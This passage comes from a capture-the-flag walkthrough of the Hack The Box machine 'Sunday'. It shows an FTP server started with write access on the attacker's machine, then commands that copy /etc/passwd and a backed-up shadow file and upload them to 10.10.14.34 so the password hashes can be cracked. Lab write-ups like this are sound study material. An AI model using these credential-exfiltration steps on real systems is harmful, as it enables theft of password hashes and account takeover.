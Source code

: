 
Both files are identical and they read as such:

![shadow-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sunday/img/shadow-18.png)


After this the history file repeats itself. 


At this point I decided to have a look around the filesystem and that's where I saw the following:

![home-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sunday/img/home-19.png)


We can see that root is the owner of `sammy`'s home directory, this makes him an interesting target. We also have `sammy`'s password hash thanks to the `/backup/shadow.backup` file, let's `unshadow` it. 


First step is to transfer both `/etc/passwd` and `/backup/shadow.backup` files over to our attack machine. To do this we can start a local python ftp server on our attack machine with write permissions using:

```bash
python -m pyftpdlib -w
```

Then copy both files to `sunny`'s home directory, connect to our attack machine and transfer the files:
 
```bash
cp /etc/passwd .
cp /backup/shadow.backup .
ftp 10.10.14.34 2121
ftp> put passwd
ftp> put shadow.backup
```
